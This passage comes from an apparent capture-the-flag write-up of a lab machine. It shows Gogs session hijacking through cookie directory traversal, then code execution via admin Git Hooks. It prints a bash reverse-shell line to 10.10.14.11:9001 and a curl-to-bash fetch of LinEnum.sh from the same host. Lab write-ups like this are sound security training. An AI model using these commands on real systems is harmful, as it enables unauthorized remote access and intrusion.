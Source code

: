 ![Gogs cookie unmodified](ghoul_gogs-3.png)

![Gogs cookie directory traversal](ghoul_gogs-4.png)

After refreshing the page, we are no longer logged in as _AogiriTest_, but as _Kaneki_.

### Exploiting Gogs with Git Hooks

The user _Kaneki_ on Gogs has administrative permissions and can create **Git Hooks** to execute code when an action happens.
```
Settings --> Git Hooks --> Edit "update"
```

![Code execution with Git Hooks](ghoul_gogs-5.png)

Whenever a Git update runs, it will execute the code:
```
bash -c 'bash -i >& /dev/tcp/10.10.14.11/9001 0>&1'
```

This can be triggered by changing anything in any file in the repository.
After changing a file, the listener on my IP and port 9001 starts a reverse shell session as the user _git_.

The hostname of this box is _3713ea5e4353_ and the IP is 172.18.0.2.
There is a _./dockerenv_ directory and proofs that this is another **Docker container**.

## Enumerating Docker Container

To get an attack surface on the container, it is recommended to run any **Linux Enumeration Script**:
```
curl 10.10.14.11/LinEnum.sh | bash
```
